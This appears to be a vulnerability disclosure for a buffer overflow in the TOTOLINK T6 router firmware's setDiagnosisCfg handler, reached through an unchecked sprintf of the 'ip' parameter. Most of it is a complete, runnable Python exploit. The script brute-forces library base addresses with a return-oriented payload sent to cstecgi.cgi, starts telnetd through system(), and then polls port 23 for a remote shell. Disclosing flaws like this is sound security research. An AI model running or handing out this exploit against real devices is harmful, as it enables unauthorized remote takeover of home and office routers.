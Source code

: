 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to RCE. This vulnerability can be triggered through the topicurl `setDiagnosisCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `command` buffer is 128 bytes.

![](3/1.png)

`ip` is the param attacker control. But attecker need to pass the filter first.

![](3/2.png)

The `Validity_check` is looking for some char can be passed easy.

![](3/3.png)

`sprintf` doesn't check length of `ip`. When the attacker send a malicious `ip` param, the saved ret_address will be overwrite. Lead it to execute whatever the attacker want.

![](3/4.png)

# POC

```python
import requests, sys, threading, time, queue, random, struct, socket, os

MAX_ADDR = 2 ** 12
WORKER_AMOUNT = 10

START_TIME = 0

brute_queue = queue.Queue()

def worker(target_ip):
    while True:
        try:
            brute_val = brute_queue.get_nowait()
        except queue.Empty:
            break
        
        print("  [-] Trying 0x%x" % brute_val)

        url = f"http://{target_ip}/cgi-bin/cstecgi.cgi"

        brute_base = 0x77000000 
        telnetd_str_off = 0x5ba4

        libdl_brute_val = brute_val * 0x1000 + brute_base # base of /lib/libdl-0.9.33.so
        libdl_brute_val += 0x11c000

        libuClibc_brute_val = brute_val * 0x1000 + brute_base # base of /lib/libuClibc-0.9.33.so
        libuClibc_brute_val += 0x14000

        brute_telnet_str = libdl_brute_val + telnetd_str_off
        brute_gadget = libuClibc_brute_val + 0x29d14
        brute_system = libuClibc_brute_val + 0x35140

        temp = struct.pack("<I", brute_telnet_str)
        gadget = struct.pack("<I", brute_gadget)
        gadget_system = struct.pack("<I", brute_system)

        payload = b"A" * 135 + temp + gadget_system + gadget

        data = b'''
        {
            "topicurl":"setDiagnosisCfg",
            "ip":"%s",
            "num":"1"
        }
        ''' % (payload)

        requests.post(url, data=data)

def check_telnet(target_ip):
    global START_TIME
    print("[+] Check telnet port !!")
    while True:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(1)
            try:
                sock.connect((target_ip, 23))
                print(f"[+] Found !!")
                print(f"[+] Script run: {round(time.time() - START_TIME)}s")
                os._exit(0)
            except (socket.timeout, socket.error):
                continue
        time.sleep(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"[-] Usage: {sys.argv[0]} target_ip")
        exit(0)

    START_TIME = time.time()
    print(f"[+] Wish me luck !!")
    
    brutes = list(range(0x10, MAX_ADDR))
    random.shuffle(brutes)

    for brute in brutes:
        brute_queue.put(brute)
    
    threads = []
    for _ in range(WORKER_AMOUNT):
        t = threading.Thread(target=worker, args=(sys.argv[1],))
        t.start()
        threads.append(t)

    t2 = threading.Thread(target=check_telnet, args=(sys.argv[1],))
    t2.start()
    threads.append(t2)

    for t in threads:
        t.join()
```

[POC](https://www.youtube.com/watch?v=HXB4CWR4ilc) - Attacker execute `telnetd` by bruteforcing dynamic library base to achive remote shell.